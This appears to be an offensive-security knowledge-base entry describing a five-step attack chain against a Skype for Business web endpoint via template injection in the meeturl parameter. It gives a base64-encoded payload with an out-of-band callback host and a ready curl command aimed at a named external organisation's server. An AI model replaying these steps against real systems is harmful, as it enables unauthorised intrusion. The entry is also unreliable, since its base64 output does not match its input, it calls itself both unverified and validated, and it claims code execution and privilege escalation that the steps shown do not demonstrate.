

---
tags:
  - ssti
  - rce
  - eop
  - skype-for-business
  - microsoft
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/base64]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Web
  - Windows
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Navigate-to-Skype-for-Business-Web-Client]]'
  - '[[procedures/Intercept-HTTP-Request-with-Burp-Suite]]'
  - '[[procedures/Append-Vulnerable-Meeturl-Parameter]]'
  - '[[procedures/Encode-and-Inject-SSTI-Payload]]'
  - '[[procedures/Send-Modified-Request-and-Observe-Response]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Windows Command Shell]]'
  - '[[Exploitation for Privilege Escalation]]'
updated_at: '2025-12-14T17:30:07.382Z'
description: >-
  Multi-stage exploitation of unpatched Skype for Business vulnerabilities using
  SSTI payload injection in the meeturl parameter to achieve remote code
  execution and elevation of privilege.
id: 919ae430-f5a6-4e58-a590-54d9e1a8cd9a
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Windows Command Shell]]'
  - '[[Exploitation for Privilege Escalation]]'
---
# Skype for Business RCE and EoP via SSTI in LwaClient.aspx meeturl Parameter

Multi-stage attack chain exploiting unpatched vulnerabilities in Microsoft Skype for Business (CVE-2023-41763, CVE-2023-36780, CVE-2023-36786, CVE-2023-36789) through server-side template injection (SSTI) in the meeturl parameter of the LwaClient.aspx endpoint. The attack begins with reconnaissance to identify the vulnerable interface, proceeds to intercept and modify requests, injects a base64-encoded SSTI payload for detection and execution, and confirms exploitation via response analysis. Successful execution grants elevated privileges, enables arbitrary code execution, and allows access to sensitive internal network information without data alteration, primarily impacting confidentiality.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/base64]]

### Target Environment

- Target OS/Platform: Windows with Microsoft Skype for Business web client
- Required services/ports: HTTP/HTTPS on port 443 (web interface)
- Network access requirements: Direct internet access to the target domain (e.g., fec-feweb-ext.mtn.com)

### Initial Access Requirements

- Credential requirements: None (public-facing endpoint)
- Network position: External attacker position
- Prior access needed: None, but reconnaissance to identify Skype for Business installation

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/Navigate-to-Skype-for-Business-Web-Client]]

**Objective**: Access the vulnerable Skype for Business web client interface to begin reconnaissance and setup for exploitation.

**Instructions**: Open a web browser and navigate to the target URL to load the LwaClient.aspx page, which serves as the entry point for the web client.

**Expected Output**: The Skype for Business web interface loads successfully, displaying the client page without errors.

**Success Indicators**:
- Page loads with HTTP 200 status
- Interface elements for meeting URLs are visible

### Step 2: Discovery
procedure: [[procedures/Intercept-HTTP-Request-with-Burp-Suite]]

**Objective**: Capture the initial HTTP request to the endpoint for modification and analysis.

**Instructions**: Configure Burp Suite proxy to intercept browser traffic, then reload the page or submit a request to capture the GET request to LwaClient.aspx. Forward the intercepted request to the Repeater module for editing.

**Expected Output**: Intercepted request visible in Burp Suite with details like Host header and base URL.

**Success Indicators**:
- Request captured without errors
- Repeater module receives the request for modification

### Step 3: Discovery
procedure: [[procedures/Append-Vulnerable-Meeturl-Parameter]]

**Objective**: Identify and add the vulnerable meeturl parameter to the request URL to prepare for payload injection.

**Instructions**: In Burp Suite Repeater, modify the URL by appending ?meeturl= to the end of /lwa/Webpages/LwaClient.aspx, leaving the value empty initially to test parameter acceptance.

**Expected Output**: Modified URL ready for payload, e.g., /lwa/Webpages/LwaClient.aspx?meeturl=.

**Success Indicators**:
- Parameter appended without syntax errors
- Request structure validated in Burp

### Step 4: Execution
procedure: [[procedures/Encode-and-Inject-SSTI-Payload]]

**Objective**: Create and inject a base64-encoded SSTI payload into the meeturl parameter to detect template injection and enable command execution.

**Instructions**: Use base64 encoding on a payload URL containing an SSTI expression, such as http://cmd4cvnei56gu9etg220pa1hb7eewx6cu.oast.fun/?id=LMN%{1337*1337}#.xx//. Set this as the meeturl value in the Burp request.

Execute [[commands/encode-ssti-payload-base64]] to generate the encoded string, then update the request.

```bash
echo -n 'http://cmd4cvnei56gu9etg220pa1hb7eewx6cu.oast.fun/?id=LMN%{1337*1337}#.xx//' | base64
aHR0cDovL2NtZDRjdm5laTU2Z3U5ZXRnMjIwb3AxaGI3ZWV3eDZjdS5vYXN0LmZ1bi8/aWQ9TE1OJTI1ezEzMzcqMTMzN30jLnh4Ly8=
```

**Expected Output**: Encoded payload ready for injection, e.g., meeturl=aHR0cDovL2NtZDRjdm5laTU2Z3U5ZXRnMjIwb3AxaGI3ZWV3eDZjdS5vYXN0LmZ1bi8/aWQ9TE1OJTI1ezEzMzcqMTMzN30jLnh4Ly8=.

**Success Indicators**:
- Payload encoded correctly
- No decoding errors in Burp preview

### Step 5: Privilege Escalation
procedure: [[procedures/Send-Modified-Request-and-Observe-Response]]

**Objective**: Transmit the payload-laden request and confirm exploitation through response analysis, leading to RCE and EoP.

**Instructions**: In Burp Suite Repeater, send the GET request with the encoded SSTI payload. Monitor the response for signs of successful injection, such as callback interactions or anomalous output.

Use [[commands/send-ssti-exploit-request]] to simulate via curl if needed for verification.

```bash
curl -X GET "https://fec-feweb-ext.mtn.com/lwa/Webpages/LwaClient.aspx?meeturl=aHR0cDovL2NtZDRjdm5laTU2Z3U5ZXRnMjIwb3AxaGI3ZWV3eDZjdS5vYXN0LmZ1bi8/aWQ9TE1OJTI1ezEzMzcqMTMzN30jLnh4Ly8=" -H "Host: fec-feweb-ext.mtn.com" -H "Connection: close"
```

**Expected Output**: HTTP/1.1 200 OK response with Cache-Control: private, indicating payload processing. Check OAST for callback with computed value (e.g., 1337*1337=1780449) confirming SSTI.

**Success Indicators**:
- 200 OK status
- SSTI expression evaluated in callback
- Potential for further RCE payloads

## Attack Chain Summary

### Key Achievements

1. Confirmed SSTI vulnerability in meeturl parameter via payload evaluation.
2. Achieved RCE through unpatched CVEs, enabling arbitrary command execution.
3. Gained elevated privileges, breaching internal networks and exposing sensitive data.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Windows Command Shell]]
- [[Exploitation for Privilege Escalation]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Privilege Escalation]]

---
*Last updated: 2023-10-01T00:00:00Z*
